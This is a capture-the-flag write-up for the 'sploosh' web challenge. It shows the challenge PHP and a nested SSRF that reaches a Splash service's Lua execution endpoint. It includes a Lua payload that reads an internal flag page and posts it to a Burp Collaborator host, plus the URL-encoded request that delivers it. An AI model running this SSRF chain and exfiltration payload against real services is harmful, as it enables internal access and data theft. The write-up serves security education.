


# sploosh

**Category**: Web

**The task**:



To get the flag, you simply had to send a request to ``flag.php``, however, it works only for internal hosts:

```php
<?php

$FLAG = getenv("FLAG");

$remote_ip = $_SERVER['REMOTE_ADDR'];
if ($remote_ip === "172.16.0.13" || $remote_ip === '172.16.0.14') {
  echo $FLAG;
} else {
  echo "No flag for you :)";
}
?>

```

We cannot inject new parameters to the internal _splash_ microservice request due to ``urlencode()``:

```php
try {
  $json = file_get_contents("http://splash:8050/render.json?timeout=1&url=" . urlencode($url));
  $out = array("geometry" => json_decode($json)->geometry);
  echo json_encode($out);
} catch(Exception $e) {
  fail();
}
```

# Solution

To overcome the ``urlencode()`` and fully control the path(+parameters) of the internal request to the _splash_ microservice: just nest it in another SSRF(==make splash send request to itself).

Once you got that, it is possible to execute Lua scripts using an internal _splash_ [/exec endpoint](https://splash.readthedocs.io/en/stable/api.html#execute).

Final payload:
```lua
function main(please)
    local flag = please:http_get("http://webapp/flag.php").body
    please:http_post{url="http://aaovywoyfoyk06vas7lb8xyz8qeh26.burpcollaborator.net/postReq", body=flag}
    return "ok"
end
```

Encode it & launch it in a "2nd-order" SSRF:
```
GET /api.php?url=http://splash:8050/execute?lua_source=%66%75%6e%63%74%69%6f%6e%20%6d%61%69%6e%28%70%6c%65%61%73%65%29%0a%20%20%20%20%6c%6f%63%61%6c%20%66%6c%61%67%20%3d%20%70%6c%65%61%73%65%3a%68%74%74%70%5f%67%65%74%28%22%68%74%74%70%3a%2f%2f%77%65%62%61%70%70%2f%66%6c%61%67%2e%70%68%70%22%29%2e%62%6f%64%79%0a%20%20%20%20%70%6c%65%61%73%65%3a%68%74%74%70%5f%70%6f%73%74%7b%75%72%6c%3d%22%68%74%74%70%3a%2f%2f%61%61%6f%76%79%77%6f%79%66%6f%79%6b%30%36%76%61%73%37%6c%62%38%78%79%7a%38%71%65%68%32%36%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%70%6f%73%74%52%65%71%22%2c%20%62%6f%64%79%3d%66%6c%61%67%7d%0a%20%20%20%20%72%65%74%75%72%6e%20%22%6f%6b%22%0a%65%6e%64 HTTP/1.1
Host: sploosh.chal.perfect.blue
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: */*
Referer: http://sploosh.chal.perfect.blue/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

Incoming request in collaborator:



